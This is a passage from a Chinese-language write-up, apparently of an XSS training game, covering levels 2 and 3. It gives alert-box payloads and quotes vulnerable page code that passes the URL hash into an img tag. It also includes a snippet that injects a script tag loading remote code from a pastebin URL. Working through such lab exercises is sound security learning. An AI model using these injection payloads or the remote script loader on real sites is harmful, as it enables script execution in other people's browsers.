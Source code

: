输入 `<script>alert(1)</script>` 点击 `Share status`, 查看源码，可以看到 `<script>` 标签被插入到 dom 中，但是没有执行，**之前理解错误**，以为 `<script>` 标签只有在页面被载入的时候才会执行，其实是因为代码中通过 `innerText` 的方式来插入，浏览器不会加载和执行脚本，但如果通过创建标签，然后 `appendChild` 的方式是可以执行的

```
var script = document.createElement('script');
script.src = "https://pastebin.com/raw/CnjDaS8i";
document.getElementsByTagName('head')[0].appendChild(script);
```

这里可以使用 `<img src="x" onerror="alert(1)">` 来执行弹框


## level 3
---

XSS输出点在 标签属性值，注入点为 hash(#) 后的数字 

问题函数

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}

window.onload = function() { 
  chooseTab(self.location.hash.substr(1) || "1");
}

// Extra code so that we can communicate with the parent page
window.addEventListener("message", function(event){
  if (event.source == parent) {
    chooseTab(self.location.hash.substr(1));
  }
}, false);
```
